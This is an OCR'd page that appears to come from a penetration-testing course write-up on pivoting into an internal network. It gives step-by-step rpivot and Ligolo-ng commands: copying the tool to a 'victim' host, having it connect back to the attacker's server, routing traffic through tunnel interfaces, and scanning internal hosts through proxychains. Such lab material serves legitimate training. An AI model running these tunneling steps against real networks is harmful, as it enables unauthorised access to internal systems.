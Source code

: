 ```bash
We still need to leave our settings in /proxychains.conf as "socks4 8090, socks5 8090" 
as we would be making use of socks.

Download rpivot tool from the course materials.
change directory to rpivot( cd /rpivot)

Rpivot will run on the Attacker's machine, being the server, and the Victim also run 
rpivot as the client to connect back to the Server(Attacker's machine).

firstly, Copy rpivot tool to victim's machine, you can use any of your preferred methods, but
I'm cool with using scp -r rpivot/ privilege@192.168.50.3:/home/privilege/rpivot, since 
we have the password for ssh.

On attacker Machine, run:
- python2 server.py --server-ip <Ip address in Tun0 interface> --server-port 9980 
--proxy-ip 127.0.0.1 --proxy-ip 8090.

On Victim's machine, run:
- python2 client.py --server-ip <Attacker's IP address in Tun0 interface> --server-port 9980

We can test if it's reachable by running a simple nmap scan using
"proxychains nmap 192.168.98.30".
```

<h3>METHOD 3 Ligolo-ng</h3>

```bash
#Attacker Machine, download proxy & agent :
#Proxy
wget
https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_pr
oxy_0.4.3_Linux_64bit.tar.gz

#Agent
wget
https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_ag
ent_0.4.3_Linux_64bit.tar.gz

**Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim
machine.**

# Attacker Machine
sudo ip tuntap add user <your_user> mode tun ligolo - used to create a 
TUN (network tunnel) interface for Ligolo-ng’s agent to forward traffic through.

Delete the 192.168.98.0/24 IP Range from the tun0 interface:
sudo ip route del 192.168.98.0/24 dev tun0

#Up the ligolo interface :
sudo ip link set ligolo up (Don't worry if it still shows DOWN after turning it on,
it's waiting for a connection.

#Add 192.168.98.0/24 IP range to the ligolo interface :
sudo ip route add 192.168.98.0/24 dev ligolo

Confirm the route on your attacker machine. The internal IP range is now
added in the route.

Start the proxy on the attacker server
./proxy -selfcert -laddr 0.0.0.0:443

```
